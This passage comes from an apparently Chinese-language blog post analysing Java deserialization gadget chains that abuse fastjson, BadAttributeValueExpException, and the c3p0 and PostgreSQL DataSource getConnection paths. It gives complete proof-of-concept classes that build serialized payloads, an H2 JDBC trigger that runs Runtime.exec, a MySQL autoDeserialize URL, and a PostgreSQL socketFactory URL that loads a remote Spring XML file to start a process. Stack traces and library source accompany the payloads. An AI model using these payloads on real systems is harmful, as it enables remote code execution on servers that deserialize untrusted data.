readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:35, Test
```

这里使用的是 h2 数据库的依赖，因为我们看参数的解析

```
public Connection getConnection() throws SQLException {
    return DriverManager.getConnection(this.jdbcUrl, this.createProps((String)null, (String)null));
}
```

跟进 createProps 方法

```
private Properties createProps(String var1, String var2) {
    Properties var3 = new Properties();
    if (var1 != null) {
        var3.put("user", var1);
        var3.put("password", var2);
    } else if (this.dfltUser != null) {
        var3.put("user", this.dfltUser);
        var3.put("password", this.dfltPassword);
    }

    return var3;
}
```

只接收 user 和 password

```
private static Connection getConnection(
    String url, java.util.Properties info, Class<?> caller) throws SQLException {
    /*
     * When callerCl is null, we should check the application's
     * (which is invoking this class indirectly)
     * classloader, so that the JDBC driver class outside rt.jar
     * can be loaded from here.
     */
    ClassLoader callerCL = caller != null ? caller.getClassLoader() : null;
    synchronized(DriverManager.class) {
        // synchronize loading of the correct classloader.
        if (callerCL == null) {
            callerCL = Thread.currentThread().getContextClassLoader();
        }
    }

    if(url == null) {
        throw new SQLException("The url cannot be null", "08001");
    }

    println("DriverManager.getConnection("" + url + "")");

    // Walk through the loaded registeredDrivers attempting to make a connection.
    // Remember the first exception that gets raised so we can reraise it.
    SQLException reason = null;

    for(DriverInfo aDriver : registeredDrivers) {
        // If the caller does not have permission to load the driver then
        // skip it.
        if(isDriverAllowed(aDriver.driver, callerCL)) {
            try {
                println("    trying " + aDriver.driver.getClass().getName());
                Connection con = aDriver.driver.connect(url, info);
                if (con != null) {
                    // Success!
                    println("getConnection returning " + aDriver.driver.getClass().getName());
                    return (con);
                }
            } catch (SQLException ex) {
                if (reason == null) {
                    reason = ex;
                }
            }

        } else {
            println("    skipping: " + aDriver.getClass().getName());
        }

    }

    // if we got here nobody could connect.
    if (reason != null)    {
        println("getConnection failed: " + reason);
        throw reason;
    }

    println("getConnection: no suitable driver found for "+ url);
    throw new SQLException("No suitable driver found for "+ url, "08001");
}
```

在这里进行的连接





### c3p0-DriverManagerDataSource

需要我们的依赖

```
<dependency>
  <groupId>com.mchange</groupId>
  <artifactId>c3p0</artifactId>
  <version>0.9.5.5</version>
</dependency>

```

不管打什么连接都可以

```
import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

import com.mchange.v2.c3p0.DriverManagerDataSource;
import com.mysql.jdbc.jdbc2.optional.MysqlDataSource;
import common.Util;

public class Test {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception{
        String calc = "//javascript
java.lang.Runtime.getRuntime().exec("calc")";
        String jdbc = "jdbc:h2:mem:;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"+ calc +"'";
        String jdbc1 ="jdbc:mysql://127.0.0.1:62609/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=deser_CUSTOM";
        com.mchange.v2.c3p0.DriverManagerDataSource dataSource = new DriverManagerDataSource();
        dataSource.setJdbcUrl(jdbc1);
        JSONArray jsonArray = new JSONArray();
        jsonArray.add(dataSource);
        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd,"val",jsonArray);
        HashMap hashMap = new HashMap();
        hashMap.put(dataSource,bd);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
        objectInputStream.readObject();


    }
}

```

```
getConnection:159, DriverManagerDataSource (com.mchange.v2.c3p0)
write:-1, ASMSerializer_1_DriverManagerDataSource (com.alibaba.fastjson.serializer)
write:126, ListSerializer (com.alibaba.fastjson.serializer)
write:275, JSONSerializer (com.alibaba.fastjson.serializer)
toJSONString:799, JSON (com.alibaba.fastjson)
toString:793, JSON (com.alibaba.fastjson)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
readObject:1396, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:36, Test
```

跟进 getConnection 方法

```
public Connection getConnection() throws SQLException {
    this.ensureDriverLoaded();
    Connection out = this.driver().connect(this.jdbcUrl, this.properties);
    if (out == null) {
        throw new SQLException("Apparently, jdbc URL '" + this.jdbcUrl + "' is not valid for the underlying driver [" + this.driver() + "].");
    } else {
        return out;
    }
}
```





### PGSimpleDataSource

需要依赖

```
<dependency>
  <groupId>org.postgresql</groupId>
  <artifactId>postgresql</artifactId>
  <version>42.3.1</version>
</dependency>

```

打这个 jdbc 有三种方法

这里使用加载远程的 xml 文件  
POC

```
import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

import com.mchange.v2.c3p0.DriverManagerDataSource;
import com.mysql.jdbc.jdbc2.optional.MysqlDataSource;
import common.Util;
import org.postgresql.ds.PGSimpleDataSource;

public class Test {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception{
        String calc = "//javascript
java.lang.Runtime.getRuntime().exec("calc")";
        String jdbc = "jdbc:h2:mem:;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"+ calc +"'";
        String jdbc1 ="jdbc:mysql://127.0.0.1:62609/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=deser_CUSTOM";
        String url="http://127.0.0.1:8888/1.xml";
        PGSimpleDataSource dataSource = new PGSimpleDataSource();
        dataSource.setUser("");
        String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
        dataSource.setProperty("socketFactory",socketFactoryClass);
        dataSource.setProperty("socketFactoryArg",url);
        JSONArray jsonArray = new JSONArray();
        jsonArray.add(dataSource);
        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd,"val",jsonArray);
        HashMap hashMap = new HashMap();
        hashMap.put(dataSource,bd);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
        objectInputStream.readObject();


    }
}

```

xml 文件

```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
   <bean id="test" class="java.lang.ProcessBuilder">
    <constructor-arg value="calc.exe" />
    <property name="whatever" value="#{ test.start() }"/>
   </bean>
</beans>

```

然后起一个服务



运行就会访问文件，然后加载

调试分析

```
public Connection getConnection(@Nullable String user, @Nullable String password)
    throws SQLException {
  try {
    Connection con = DriverManager.getConnection(getUrl(), user, password);
    if (LOGGER.isLoggable(Level.FINE)) {
      LOGGER.log(Level.FINE, "Created a {0} for {1} at {2}",
          new Object[] {getDescription(), user, getUrl()});
    }
    return con;
  } catch (SQLException e) {
    LOGGER.log(Level.FINE, "Failed to create a {0} for {1} at {2}: {3}",
        new Object[] {getDescription(), user, getUrl(), e});
    throw e;
  }
}
```

我们的 url 就是在 getUrl 方法中拼接的

```
public String getUrl() {
  StringBuilder url = new StringBuilder(100);
  url.append("jdbc:postgresql://");
  for (int i = 0; i < serverNames.length; i++) {
    if (i > 0) {
      url.append(",");
    }
    url.append(serverNames[i]);
    if (portNumbers != null && portNumbers.length >= i && portNumbers[i] != 0) {
      url.append(":").append(portNumbers[i]);
    }
  }
  url.append("/");
  if (databaseName != null) {
    url.append(URLCoder.encode(databaseName));
  }

  StringBuilder query = new StringBuilder(100);
  for (PGProperty property : PGProperty.values()) {
    if (property.isPresent(properties)) {
      if (query.length() != 0) {
        query.append("&");
      }
      query.append(property.getName());
      query.append("=");
      String value = castNonNull(property.get(properties));
      query.append(URLCoder.encode(value));
    }
  }

  if (query.length() > 0) {
    url.append("?");
    url.append(query);
  }

  return url.toString();
}
```

先初始化 URL 拼接，然后再拼接服务器名称和端口号，拼接数据库名称，拼接查询参数，拼接查询参数到 URL



然后最后还是一样




